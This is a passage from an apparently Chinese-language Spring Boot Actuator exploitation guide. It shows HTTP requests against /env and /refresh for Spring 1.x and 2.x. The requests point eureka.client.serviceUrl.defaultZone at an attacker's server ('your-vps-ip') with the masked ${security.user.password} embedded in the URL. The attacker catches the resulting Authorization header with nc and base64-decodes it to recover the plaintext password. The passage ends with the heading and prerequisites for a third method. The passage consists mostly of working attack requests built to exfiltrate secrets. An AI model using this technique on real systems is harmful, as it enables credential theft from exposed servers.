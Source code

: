 `your-vps-ip` 换成自己外网服务器的真实 ip 地址。

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip

```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}

```

##### [](#步骤四-刷新配置)步骤四： 刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```

##### [](#步骤五-解码属性值)步骤五： 解码属性值

正常的话，此时 nc 监听的服务器会收到目标发来的请求，其中包含类似如下 `Authorization` 头内容：

```
Authorization: Basic dmFsdWU6MTIzNDU2

```

将其中的 `dmFsdWU6MTIzNDU2`部分使用 base64 解码，即可获得类似明文值 `value:123456`，其中的 `123456` 即是目标星号 * 脱敏前的属性值明文。

### [](#0x05获取被星号脱敏的密码的明文-方法三)0x05：获取被星号脱敏的密码的明文 (方法三)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

#### [](#利用条件-2)利用条件：

* 通过 POST `/env` 设置属性触发目标对外网指定地址发起任意 http 请求
* 目标可以请求攻击者的服务器（请求可出外网）
